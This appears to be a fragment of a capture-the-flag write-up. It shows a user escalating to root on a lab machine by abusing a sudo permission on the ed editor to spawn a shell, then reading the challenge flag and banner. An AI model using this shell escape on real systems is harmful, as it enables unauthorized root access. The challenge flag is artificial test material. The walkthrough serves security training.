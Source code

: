 ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
User splunk may run the following commands on sputnik:
    (root) /bin/ed

splunk@sputnik:/$ id
id
uid=1001(splunk) gid=1001(splunk) groups=1001(splunk)
splunk@sputnik:/$ sudo ed
sudo ed
!/bin/sh
!/bin/sh
# id
id
uid=0(root) gid=0(root) groups=0(root)

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Getting the flag

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
# cat flag.txt	
cat flag.txt
 _________________________________________
/ Congratulations!                        \
|                                         |
| You did it!                             |
|                                         |
| Thank you for trying out this challenge |
| and hope that you learn a thing or two. |
|                                         |
| Check the flag below.                   |
|                                         |
| flag_is{w1th_gr34t_p0w3r_c0m35_w1th_gr3 |
| 4t_r3sp0ns1b1l1ty}                      |
|                                         |
| Hope you enjoy solving this challenge.  |
| :D                                      |
|                                         |
\ - ameer (from hackstreetboys)           /
 -----------------------------------------
      \                    / \  //\
       \    |\___/|      /   \//  \\
            /0  0  \__  /    //  | \ \    
           /     /  \/_/    //   |  \  \  
           @_^_@'/   \/_   //    |   \   \ 
           //_^_/     \/_ //     |    \    \
        ( //) |        \///      |     \     \
      ( / /) _|_ /   )  //       |      \     _\
    ( // /) '/,_ _ _/  ( ; -.    |    _ _\.-~        .-~~~^-.
  (( / / )) ,-{        _      `-.|.-~-.           .~         `.
 (( // / ))  '/\      /                 ~-. _ .-~      .-~^-.  \
 (( /// ))      `.   {            }                   /      \  \
  (( / ))     .----~-.\        \-'                 .~         \  `. \^-.
             ///.----..>        \             _ -~             `.  ^-`  ^-_
               ///-._ _ _ _ _ _ _}^ - - - - ~                     ~-- ,.-~
                                                                  /.-~

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



